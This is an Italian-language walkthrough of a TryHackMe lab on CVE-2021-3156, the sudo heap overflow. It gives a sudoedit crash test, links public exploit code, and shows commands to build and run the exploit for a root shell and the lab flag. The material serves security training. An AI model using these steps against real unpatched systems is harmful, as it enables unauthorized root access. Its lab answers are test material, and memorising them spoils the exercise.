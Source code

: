 #tryhackmelabs #laboratorio 

https://tryhackme.com/room/sudovulnssamedit

Nel gennaio 2021, [Qualys](https://qualys.com/) ha pubblicato un [post sul blog](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit) in cui descriveva dettagliatamente una nuova terrificante vulnerabilità nel programma sudo di Unix.

Nello specifico, si trattava di un overflow del buffer heap che consentiva a qualsiasi utente di aumentare i privilegi di root, senza bisogno di configurazioni errate. Questo exploit funziona con le impostazioni predefinite, per qualsiasi utente, indipendentemente dai permessi sudo, il che lo rende ancora più pericoloso. La vulnerabilità è stata patchata, ma colpisce qualsiasi versione non patchata del programma sudo, dalla 1.8.2 alla 1.8.31p2 e dalla 1.9.0 alla 1.9.5p1, il che significa che è presente da dieci anni.  

Il programma è stato patchato molto rapidamente (e le versioni patchate sono state inserite nei repository subito dopo), quindi questo exploit non funzionerà più sui target aggiornati; tuttavia, è ancora incredibilmente potente.

Come nel caso di CVE -2019-18634 (che abbiamo visto nella [seconda stanza sudovulns](https://tryhackme.com/room/sudovulnsbof) ), questa vulnerabilità è un buffer overflow nel programma sudo; tuttavia, questa volta la vulnerabilità è un buffer overflow _dell'heap_ , a differenza del buffer overflow _dello stack_ che abbiamo visto in precedenza. Lo stack è una sezione di memoria molto regolamentata che memorizza vari aspetti importanti di un programma. L'heap, d'altra parte, è riservato all'allocazione dinamica della memoria, consentendo una maggiore flessibilità nel modo in cui valori e costrutti vengono creati e utilizzati da un programma. Come nella stanza precedente, non entreremo troppo nei dettagli sul funzionamento di questo meccanismo per mantenere i contenuti accessibili anche ai principianti. Tutto ciò che dobbiamo capire è che questa vulnerabilità è incredibilmente potente e di vasta portata.

Quindi, per prima cosa, cosa possiamo fare per verificare se un sistema è vulnerabile?

Fortunatamente esiste un metodo molto semplice che possiamo usare per verificare: basta digitare questo comando in un terminale:

```
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
```
Se il sistema è vulnerabile, questo sovrascriverà il buffer heap e causerà l'arresto anomalo del programma:
```
tryhackme@CVE-2021-3156:~$ sudoedit -s '\' $(python3 -c 'print("A"*1000)')
malloc(): memory corruption
Aborted (core dumped)
```

Questa PoC è stata ottenuta da un ricercatore di nome [lockedbyte](https://twitter.com/lockedbyte) , [qui](https://github.com/lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156) .  

Quando l'avviso è stato pubblicato per la prima volta, Qualys non ha fornito il codice completo per l'exploit. Tuttavia, non ci è voluto molto perché altri ricercatori replicassero la vulnerabilità. La prima copia funzionante dell'exploit resa pubblica è stata creata da un ricercatore noto come [bl4sty](https://twitter.com/bl4sty) . Il loro codice exploit completo è disponibile su Github, [qui](https://github.com/blasty/CVE-2021-3156) . Questo è ciò che useremo per sfruttare la macchina che hai distribuito nel primo task.

Questa macchina è stata configurata per consentire un facile sfruttamento della vulnerabilità. Pertanto, il repository Github linkato sopra è già stato aggiunto al target.

Nella directory home vedrai una cartella chiamata "Exploit":
Entra in questa directory ( `cd Exploit`) e vedrai un file chiamato "Makefile". Questo indica che possiamo compilare automaticamente l'exploit semplicemente digitando " `make`" e premendo Invio:

Controllando nuovamente il contenuto della directory, vediamo che è apparso un nuovo file eseguibile:
```
tryhackme@CVE-2021-3156:~/Exploit$ ls
Makefile  README.md  hax.c  lib.c  libnss_X  sudo-hax-me-a-sandwich
```

Quando eseguiamo questo file ci verranno presentate diverse opzioni:

```
./sudo-hax-me-a-sandwich
```

```
tryhackme@CVE-2021-3156:~/Exploit$ ./sudo-hax-me-a-sandwich  

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------
```
Attualmente, questo exploit è in grado di colpire tre obiettivi. La macchina che abbiamo implementato è un server Ubuntu 18.04.5, quindi useremo l'obiettivo 0.

```
./sudo-hax-me-a-sandwich 0
```

Se eseguito con il target specificato come parametro, otteniamo una shell root!

Dopo aver compilato l'exploit, qual è il nome dell'eseguibile creato (sfocato negli screenshot qui sopra)?
```
sudo-hax-me-a-sandwich
```
Esegui l'exploit!
Ora dovresti avere una shell root: qual è il flag in `/root/flag.txt`?

```
cat /root/flag.txt
```

```
THM{xxxxxxxxxxxxxxxxxxxxxxx}
```
